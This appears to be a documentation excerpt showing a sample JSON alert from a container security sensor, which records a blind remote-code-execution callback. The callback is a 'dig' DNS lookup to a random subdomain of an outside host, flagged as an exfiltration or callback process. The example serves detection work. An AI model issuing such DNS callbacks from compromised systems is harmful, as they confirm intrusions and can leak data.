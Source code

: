 ### container RCE event

successful blind remote code execution (RCE) callback

```json
{
   "@timestamp":"2018-05-26T15:06:14.397Z",
   "src_ip":"127.0.0.1",
   "event":{
      "id":"714966143a853b3bf55ccb2683a3b6bcfcbf731f9318705485609d8ef7711b13",
      "container_name": "/cranky_kowalevski",
      "image_id": "3fd9065eaf02feaf94d68376da52541925650b81698c53c6824d92ff63f98353",
      "image_name": "alpine",
      "process_pid":3789,
      "sensor_id":"49c921bc827b2aa9b5f20b0e65af9c3126c79221bac4f2b2a7edd7db7e3774aa",
      "Event":{
         "Process":{
            "type":2,
            "exec_filename":"/usr/bin/dig",
            "exec_command_line":[
               "dig",
               "+short",
               "ifjeow0234f90iwefo2odj.wat.lol"
            ]
         }
      }
   },
   "indicators":[
      {
         "Engine":"static",
         "RuleName":"",
         "IndicatorType":"risky_process",
         "Description":"dig is a risky process often used for exfil / callback",
         "ExtraInfo":"",
         "Score":70
      },
      {
         "Engine":"dynamic",
         "RuleName":"insider_threat",
         "IndicatorType":"custom",
         "Description":"it's coming from inside the house!",
         "ExtraInfo":"origin was 127.0.0.1",
         "Score":60
      },
      {
         "Engine":"profile",
         "RuleName":"",
         "IndicatorType":"abnormal_behavior",
         "Description":"subject is behaving outside of its profile",
         "ExtraInfo":"",
         "Score":50
      }
   ]
}
```
